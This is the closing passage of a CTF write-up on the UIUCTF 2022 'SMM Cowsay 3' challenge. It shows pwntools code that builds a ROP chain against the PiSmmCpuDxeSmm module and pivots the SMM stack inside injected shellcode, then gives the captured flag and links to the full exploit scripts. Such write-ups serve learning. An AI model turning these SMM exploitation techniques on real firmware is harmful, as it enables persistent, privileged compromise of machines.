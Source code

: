 ```python  
       chunk                  , # -> RAX  
       PiSmmCpuDxeSmm_text + i, # -> RBX  
       0xdeadbeef             ,  
       write_primitive        , # mov qword ptr [rbx], rax ; pop rbx ; ret  
       0xdeadbeef  
   ]

real_chain += [PiSmmCpuDxeSmm_text]

# Transform real ROP chain into .quad directives to embed in the shellcode:  
#   .quad 0x7f8a184  
#   .quad 0x80000033  
#    ...  
real_chain_size = len(real_chain) * 8  
real_chain      = '.quad ' + '\n.quad '.join(map(str, real_chain))  
```

The asm of the code we send to the server is the same as for the previous  
challenge, so I am leaving most of it out. The only thing that changes is that  
we now have to do some math to put the gadget to flip the stack and the new  
stack address in the right place since the `ret 0x6d` will misalign the stack:

```python  
code = asm(f'''  
   /* ... */

   movabs r13, {(flip_stack << 40) & 0xffffffffffffffff}  
   movabs r14, {((flip_stack >> 24) | (new_smm_stack << 40)) & 0xffffffffffffffff}  
   movabs r15, {new_smm_stack >> 24}  
   call rax

   /* ... */  
''')  
```

Now just run the exploit in a loop as we did for SMM Cowsay 2 and leak the  
entire flag: `uiuctf{uefi_is_hard_and_vendors_dont_care_1403c057}`. GG!

---

GG to you too if you made it this far :O. All in all, this was very fun and  
interesting set of challenges that made me learn a lot about x86 SMM and UEFI.  
Hope you enjoyed the write-up.

[smm1]: #smm-cowsay-1  
[smm2]: #smm-cowsay-2  
[smm3]: #smm-cowsay-3  
[expl1]:
https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-
cowsay/expl_smm_cowasy_1.py  
[expl2]:
https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-
cowsay/expl_smm_cowasy_2.py  
[expl3]:
https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-
cowsay/expl_smm_cowasy_3.py


[uiuctf]:                              https://ctftime.org/event/1600/  
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges  
[author]:                              https://github.com/zhuyifei1999  
[uefi-spec]:                           https://uefi.org/specifications  
[man-cowsay]:                          https://manned.org/cowsay.1  
[man-pahole]:                          https://manned.org/pahole.1  
[x64-call]:                            https://docs.microsoft.com/en-
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm  
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools  
[gh-edk2]:                             https://github.com/tianocore/edk2  
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx  
[gh-qemu]:                             https://github.com/qemu/qemu  
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-